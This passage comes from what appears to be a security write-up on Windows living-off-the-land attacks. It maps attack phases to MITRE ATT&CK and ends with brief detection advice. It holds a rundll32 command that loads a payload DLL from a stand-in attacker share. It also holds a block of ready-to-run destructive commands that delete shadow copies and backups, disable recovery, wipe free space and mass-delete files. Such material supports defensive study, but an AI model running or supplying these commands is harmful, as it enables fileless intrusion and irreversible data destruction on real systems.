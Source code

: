 ```cmd
rundll32.exe \\attacker\payload.dll,ReflectEntry
```

> *Note: This technique is commonly used to bypass disk forensics and traditional AV signatures.*

---

## MITRE ATT\&CK Framework Mapping

| Phase                | Technique                            | ID               | Description                               |
| -------------------- | ------------------------------------ | ---------------- | ----------------------------------------- |
| Initial Access       | Valid Accounts, Drive-by Compromise  | T1078, T1189     | Initial foothold via trusted interfaces   |
| Execution            | LOLBins, Reflective Injection        | T1218, T1055.001 | Stealthy memory-only execution            |
| Privilege Escalation | Print Spooler Exploit, HiveNightmare | T1068, T1003.002 | SYSTEM-level privilege escalation         |
| Defense Evasion      | Encoded Commands, Fileless Execution | T1027, T1202     | Evasion via obfuscation and in-memory ops |
| Credential Access    | LSASS Dumping                        | T1003            | Dumping credentials via memory access     |
| Lateral Movement     | SMB, Remote Scripting                | T1021.002        | Movement across systems using LOLBins     |
| Impact               | Encryption, Destructive Commands     | T1485, T1486     | File encryption and system sabotage       |

---

## Destructive Payload Scenarios (LOLBins)

```cmd
cipher /w:C:                                       # Secure delete free space
vssadmin delete shadows /all /quiet               # Shadow copy deletion
wbadmin delete systemstatebackup -keepVersions:0  # Backup removal
bcdedit /set {default} recoveryenabled No         # Disable recovery boot
fsutil dirty set C:                               # Force dirty bit
forfiles /p C:\ /s /d -2 /c "cmd /c del /q @file" # Mass deletion
schtasks /create /tn "Wipe" /tr "cmd /c del /f /q C:\*.xls" /sc once /st 23:59
```

---

## Detection & Mitigation

### Detection Strategies

* **Sysmon + Sigma**:

  * Monitor for unusual LOLBin activity
  * Detect fileless persistence via registry keys
  * Identify PowerShell encoding and obfuscation

* **SIEM (Splunk, ELK)**:

  * Correlate process trees and anomalies
  * Alert on remote execution from network shares
